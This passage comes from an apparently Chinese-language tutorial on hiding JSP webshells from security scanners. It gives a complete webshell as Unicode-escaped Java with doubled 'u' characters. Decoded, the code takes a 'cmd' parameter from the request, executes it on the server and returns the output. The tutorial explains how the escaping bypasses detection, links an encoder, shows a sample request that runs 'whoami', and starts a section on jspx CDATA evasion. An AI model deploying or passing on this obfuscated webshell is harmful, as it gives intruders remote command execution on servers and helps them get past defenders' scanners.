 ```jsp
  \uuuu0053\uuuu0074\uuuu0072\uuuu0069\uuuu006e\uuuu0067\uuuu0020\uuuu0063\uuuu006d\uuuu0064\uuuu0020\uuuu003d\uuuu0020\uuuu0072\uuuu0065\uuuu0071\uuuu0075\uuuu0065\uuuu0073\uuuu0074\uuuu002e\uuuu0067\uuuu0065\uuuu0074\uuuu0050\uuuu0061\uuuu0072\uuuu0061\uuuu006d\uuuu0065\uuuu0074\uuuu0065\uuuu0072\uuuu0028\uuuu0022\uuuu0063\uuuu006d\uuuu0064\uuuu0022\uuuu0029\uuuu003b\uuuu0050\uuuu0072\uuuu006f\uuuu0063\uuuu0065\uuuu0073\uuuu0073\uuuu0020\uuuu0070\uuuu0072\uuuu006f\uuuu0063\uuuu0065\uuuu0073\uuuu0073\uuuu0020\uuuu003d\uuuu0020\uuuu0052\uuuu0075\uuuu006e\uuuu0074\uuuu0069\uuuu006d\uuuu0065\uuuu002e\uuuu0067\uuuu0065\uuuu0074\uuuu0052\uuuu0075\uuuu006e\uuuu0074\uuuu0069\uuuu006d\uuuu0065\uuuu0028\uuuu0029\uuuu002e\uuuu0065\uuuu0078\uuuu0065\uuuu0063\uuuu0028\uuuu0063\uuuu006d\uuuu0064\uuuu0029\uuuu003b\uuuu0049\uuuu006e\uuuu0070\uuuu0075\uuuu0074\uuuu0053\uuuu0074\uuuu0072\uuuu0065\uuuu0061\uuuu006d\uuuu0020\uuuu0069\uuuu0073\uuuu0020\uuuu003d\uuuu0020\uuuu0070\uuuu0072\uuuu006f\uuuu0063\uuuu0065\uuuu0073\uuuu0073\uuuu002e\uuuu0067\uuuu0065\uuuu0074\uuuu0049\uuuu006e\uuuu0070\uuuu0075\uuuu0074\uuuu0053\uuuu0074\uuuu0072\uuuu0065\uuuu0061\uuuu006d\uuuu0028\uuuu0029\uuuu003b\uuuu0042\uuuu0075\uuuu0066\uuuu0066\uuuu0065\uuuu0072\uuuu0065\uuuu0064\uuuu0052\uuuu0065\uuuu0061\uuuu0064\uuuu0065\uuuu0072\uuuu0020\uuuu0062\uuuu0075\uuuu0066\uuuu0066\uuuu0065\uuuu0072\uuuu0065\uuuu0064\uuuu0052\uuuu0065\uuuu0061\uuuu0064\uuuu0065\uuuu0072\uuuu0020\uuuu003d\uuuu0020\uuuu006e\uuuu0065\uuuu0077\uuuu0020\uuuu0042\uuuu0075\uuuu0066\uuuu0066\uuuu0065\uuuu0072\uuuu0065\uuuu0064\uuuu0052\uuuu0065\uuuu0061\uuuu0064\uuuu0065\uuuu0072\uuuu0028\uuuu006e\uuuu0065\uuuu0077\uuuu0020\uuuu0049\uuuu006e\uuuu0070\uuuu0075\uuuu0074\uuuu0053\uuuu0074\uuuu0072\uuuu0065\uuuu0061\uuuu006d\uuuu0052\uuuu0065\uuuu0061\uuuu0064\uuuu0065\uuuu0072\uuuu0028\uuuu0069\uuuu0073\uuuu0029\uuuu0029\uuuu003b\uuuu0053\uuuu0074\uuuu0072\uuuu0069\uuuu006e\uuuu0067\uuuu0020\uuuu0072\uuuu0020\uuuu003d\uuuu0020\uuuu006e\uuuu0075\uuuu006c\uuuu006c\uuuu003b\uuuu0077\uuuu0068\uuuu0069\uuuu006c\uuuu0065\uuuu0028\uuuu0028\uuuu0072\uuuu0020\uuuu003d\uuuu0020\uuuu0062\uuuu0075\uuuu0066\uuuu0066\uuuu0065\uuuu0072\uuuu0065\uuuu0064\uuuu0052\uuuu0065\uuuu0061\uuuu0064\uuuu0065\uuuu0072\uuuu002e\uuuu0072\uuuu0065\uuuu0061\uuuu0064\uuuu004c\uuuu0069\uuuu006e\uuuu0065\uuuu0028\uuuu0029\uuuu0029\uuuu0021\uuuu003d\uuuu006e\uuuu0075\uuuu006c\uuuu006c\uuuu0029\uuuu007b\uuuu0072\uuuu0065\uuuu0073\uuuu0070\uuuu006f\uuuu006e\uuuu0073\uuuu0065\uuuu002e\uuuu0067\uuuu0065\uuuu0074\uuuu0057\uuuu0072\uuuu0069\uuuu0074\uuuu0065\uuuu0072\uuuu0028\uuuu0029\uuuu002e\uuuu0070\uuuu0072\uuuu0069\uuuu006e\uuuu0074\uuuu006c\uuuu006e\uuuu0028\uuuu0072\uuuu0029\uuuu003b\uuuu007d%>
```

注意这里的 `\uuuu00` 可以换成 `\uuuu00uuu...` 可以跟多个 u 达到绕过的效果

将代码（除page以及标签）进行unicode编码，并条件到<%%>标签中，即可执行webshell

在线unicode编码转换：https://3gmfw.cn/tools/unicodebianmazhuanhuanqi/

注意用此在线unicode编码后内容会存在 /ua ，需要手动删除，负责无法正常运行

```http
http://localhost:8080/webshell123/test12.jsp?cmd=whoami
```

### CDATA特性

这里是要是利用 jspx 的进行进行免杀，jspx 其实就是 xml 格式的 jsp 文件

在 jspx 中，可以利用 `jsp:scriptlet` 来代替 `<%%>`


